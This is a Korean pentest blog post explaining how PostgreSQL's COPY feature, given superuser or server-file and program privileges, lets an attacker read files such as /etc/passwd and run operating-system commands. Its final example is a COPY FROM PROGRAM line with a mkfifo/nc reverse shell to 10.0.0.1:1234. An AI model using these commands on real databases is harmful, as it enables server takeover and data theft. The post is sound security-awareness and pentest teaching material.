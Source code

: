 ```yaml
---
title: postgresql with Command Execution
date: 2025-01-31
author: glasses96
categories: [pentest]
tags: [pentest]
pin: true
math: true
mermaid: true
---
```


> **postgresql 접근이 가능하면 RCE가 가능할 수도 있습니다.** 
{: .prompt-info }

<span style="color:#9999FF"></span>

## What is Postgresql
postgresql은 오픈소스 관계형 데이터베이스 관리 시스템(RDBMS)입니다.  
무료로 사용이 가능하며, 안정성과 확장성이 좋은 평가를 받고있다고 공식홈페이지에서 소개를 하고 있습니다.  

## How to Command Execution with postgresql
[COPY]("https://www.postgresql.org/docs/current/sql-copy.html") 기능을 사용하는 것입니다.  
아래의 권한을 부여 받았더라면 해당 권한을 이용하여 쿼리를 이용하여 서버에 파일을 읽거나 쓰기가 가능하며, 명령을 실행할 수 도 있습니다.  
postgresql은 설치 과정에서 `postgres` 라는 슈퍼유저 계정을 자동으로 생성하기 때문에 보안의 입장에서는 해당 계정에 대한 제어가 필요합니다.  

- superuser
- pg_read_server_files — 파일 읽기 허용
- pg_write_server_files — 파일에 쓰기 허용
- pg_execute_server_program — 운영 체제에서 직접 명령을 실행 가능

### COPY TO/FROM
해당 명령은 사용자가 운영 체제와 직접 상호 작용할 수 있도록 가능하여 공격자 입장에서 RCE 명령을 통해 DB계정으로 서버의 쉘 권한을 획득이 가능합니다.

예를 들어 서버의 passwd 파일을 읽고 싶다면 아래와 같은 명령어를 통해 파일 내용을 테이블에 추가할 수 있습니다.
1. CREATE TABLE read_files(output text);
2. COPY read_files FROM ('/etc/passwd');
3. SELECT * FROM read_files;

![DB](/assets/post/61/passwd.png)

### COPY TO/FROM PROGRAM to RCE
만약 아래와 같이 RCE 명령이 실행되면 postgres라는 권한의 쉘을 획득할 수 있습니다.  

1. CREATE TABLE shell(output text);
2. COPY shell FROM PROGRAM ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f‘;


## Reference
- https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767
- https://www.postgresql.org/docs/current/sql-copy.html

## 마무리하며
postgresql의 COPY라는 기능을 이용하여 Command Execution이 가능한 것을 알아보았습니다.  
이를 통해 DB의 권한을 잘 부여해서 사용해야한다는 점을 명심해야겠습니다. 